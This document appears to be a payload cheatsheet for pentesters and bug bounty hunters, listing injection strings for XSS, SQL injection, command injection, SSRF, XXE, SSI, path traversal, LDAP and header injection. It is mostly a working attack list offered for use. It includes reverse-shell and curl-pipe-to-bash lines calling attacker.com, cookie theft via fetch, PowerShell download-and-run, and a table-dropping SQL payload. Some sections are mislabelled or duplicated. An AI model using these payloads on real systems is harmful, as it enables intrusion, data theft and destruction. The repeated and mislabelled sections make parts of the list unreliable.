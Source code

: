   Payload Cheatsheet for Pentesters or Bug Bounty Hunters


Cross-Site Scripting (XSS) Payloads:

<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<svg/onload=alert('XSS')>
<video><source onerror="javascript:alert('XSS')">
"><img src=x onerror=alert('XSS')">


SQL Injection Payloads:

' OR 1=1 --
1'; DROP TABLE users; --
' UNION SELECT username, password FROM users --
1'; SELECT @@VERSION; --
' UNION SELECT table_name, column_name FROM information_schema.columns --


Command Injection Payloads:

; ls
| cat /etc/passwd
; id
&& echo "Attacker's command executed"
$(nc -nv attacker.com 4444)


Server-Side Request Forgery (SSRF) Payloads:

http://attacker.com
file:///etc/passwd
ftp://attacker.com
gopher://attacker.com
dict://attacker.com


Remote File Inclusion (RFI) Payloads:

http://attacker.com/evil_script.php
file:///etc/passwd
ftp://attacker.com/evil_script.php
expect://ls
php://input


Local File Inclusion (LFI) Payloads:

/etc/passwd
/etc/shadow
/proc/self/environ
/var/log/apache/access.log
/etc/hosts


Server-Side Template Injection (SSTI) Payloads:

{{7*'7'}}
${7*'7'}
#{7*'7'}
[[7*'7']]
=<%= 7*7 %>


XML External Entity (XXE) Payloads:

<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://ls">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "data:text/plain;base64,SGVsbG8gV29ybGQh">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>


Cross-Site Request Forgery (CSRF) Payloads:

<img src="http://attacker.com/csrf?cookie="+document.cookie>
<form action="http://victim.com/change-password" method="POST"><input type="hidden" name="new_password" value="hacked"></form>
<iframe src="http://victim.com/logout"></iframe>
<script>fetch('http://attacker.com/csrf?cookie='+document.cookie)</script>
<link rel="stylesheet" href="http://attacker.com/malicious.css">
File Upload Bypass Payloads:

shell.php.jpg
shell.php%00.jpg
shell.php;.jpg
shell.php::$data.jpg
shell.php%20


Server-Side Includes (SSI) Injection Payloads:

<!--#exec cmd="ls" -->
<!--#exec cmd="/bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1" -->
<!--#exec cmd="/bin/nc -nv attacker.com 4444 -e /bin/bash" -->
<!--#exec cmd="curl http://attacker.com/evil.sh | bash" -->
<!--#exec cmd="powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/evil.ps1')" -->


Path Traversal Payloads:

../../../etc/passwd
../../../../etc/shadow
../../../../etc/hosts
.././.././.././../etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd


XXE Out-of-Band (OOB) Payloads:

<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker.com/evil.dtd">%ext;]>
<!ENTITY % payload SYSTEM "http://attacker.com/evil.dtd">%payload;
<!ENTITY % xxe SYSTEM "file:///etc/passwd">%xxe;
<!ENTITY % xxe SYSTEM "expect://ls">%xxe;
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">%xxe;


LDAP Injection Payloads:

*
*))(|(password=*))
)(userPassword=*))(|(uid=*))
*%28|%28password%3D*%29
*%29%28%7C%28password%3D*%29


Server-Side JavaScript Injection Payloads:

</script><script>alert('XSS')</script>
</script><img src="x" onerror="alert('XSS')">
</script><svg/onload=alert('XSS')>
</script><video><source onerror="javascript:alert('XSS')">
</script>alert('XSS')//


Open Redirect Payloads:

http://attacker.com
//attacker.com
//attacker.com/evil_script.js
/%2F%2Fattacker.com
/%2F%2Fattacker.com/evil_script.js


Remote Code Execution (RCE) Payloads:

${{7*'7'}}
{{7*'7'}}
#{7*'7'}
[[7*'7']]
= 7*7


Cross-Origin Resource Sharing (CORS) Bypass Payloads:

Origin: https://attacker.com
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: null
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true


Server-Side Code Injection Payloads:

${7*'7'}
{{7*'7'}}
#{7*'7'}
[[7*'7']]
= 7*7


Remote File Download Payloads:

http://attacker.com/evil_file
file:///etc/passwd
ftp://attacker.com/evil_file
gopher://attacker.com/evil_file
data:text/plain;base64,SGVsbG8gV29ybGQ=


Insecure Direct Object Reference (IDOR) Payloads:

user=1
user=admin
user[]=1
user[]=admin
user=admin&role=admin


HTTP Header Injection Payloads:

User-Agent: <script>alert('XSS')</script>
Referer: http://attacker.com
Location: http://attacker.com
X-Forwarded-For: attacker.com
Host: attacker.com


LDAP Injection Search Filters:

*)(uid=*))(|(password=*))
*))(|(userPassword=*))(|(uid=*))
*))(|(userPassword=*))(|(uid=*))
*)(userPassword=*))(|(uid=*))
*%29%28%7C%28password%3D*%29


XML Injection Payloads:

<foo>]]&gt;<bar>
<foo><![CDATA[<]]>script>alert('XSS')//]]></foo>
<foo><!ENTITY xxe SYSTEM "file:///etc/passwd"></foo>
<foo><!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd"></foo>
<foo><!ENTITY xxe SYSTEM "expect://ls"></foo>


Host Header Injection Payloads:

Host: attacker.com
Host: attacker.com%0d%0aX-Forwarded-For: 127.0.0.1
Host: attacker.com%0d%0aReferer: http://attacker.com
Host: attacker.com%0d%0aLocation: http://attacker.com
Host: attacker.com%0d%0aCookie: session=abc
